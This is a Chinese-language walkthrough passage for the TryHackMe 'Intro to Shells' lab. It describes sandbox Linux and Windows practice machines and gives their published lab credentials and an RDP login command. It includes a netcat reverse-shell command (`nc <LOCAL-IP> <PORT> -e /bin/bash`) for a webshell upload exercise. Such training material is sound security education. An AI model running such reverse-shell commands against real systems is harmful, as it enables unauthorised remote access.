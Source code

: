 ```yaml
---
description: 本文相关内容：关于反向/绑定shell的练习示例。
cover: ../../.gitbook/assets/introtoshells.png
coverY: 0
---
```


# What the shell？(Shell简介-下)

TryHackMe实验房间链接：[https://tryhackme.com/room/introtoshells](https://tryhackme.com/room/introtoshells)

## 实践与案例

### 提示

这个章节包含了大量的信息，并且几乎没有机会让你始终将其付诸实践。

接下来的实践与案例将包含两个虚拟机（一个 Ubuntu 18.04 服务器和一个 Windows 服务器），每个都配置有一个简单的网络服务器，请使用它上传和激活 shell。

在这个案例中提供的是一个沙盒环境，所以没有过滤器需要进行绕过，你可以选择登录以使用 netcat、socat 或meterpreter shell 进行练习，提供登录凭据和说明，同时还会给出一些shell示例。

**Linux Practice Box**

目标机器是一个 Ubuntu 服务器，它有一个文件上传页面，运行在一个网络服务器上，这可以用于在 Linux 系统上实践shell上传。socat 和 netcat 都安装在这台机器上，所以请随意通过端口22上的 SSH 尝试登录，直接使用它们进行练习。登录的凭据如下:

> * **Username:** shell
> * **Password:** TryH4ckM3!

**Windows Practice Box**

目标机器是运行 XAMPP 网络服务器的 Windows 2019 Server，可用于在 Windows 上练习shell上传。Socat 和 Netcat 都已安装，可以通过 RDP 或 WinRM 登录进行练习。登录的凭据如下:

> * **Username:** Administrator
> * **Password:** TryH4ckM3!

使用 RDP 登录:

> xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:MACHINE\_IP /u:Administrator /p:'TryH4ckM3!'

### 实践

#### **操作一**

要求：尝试将 webshell 上传到 Linux 机器，然后使用命令: `nc <LOCAL-IP> <PORT> -e /bin/bash` 回连到攻击机上正在等待的监听器。

准备webshell文件：

![image-20221007234143369](C:%5CUsers%5CVimalano2ise%5CAppData%5CRoaming%5CTypora%5Ctypora-user-images%5Cimage-20221007234143369.png)
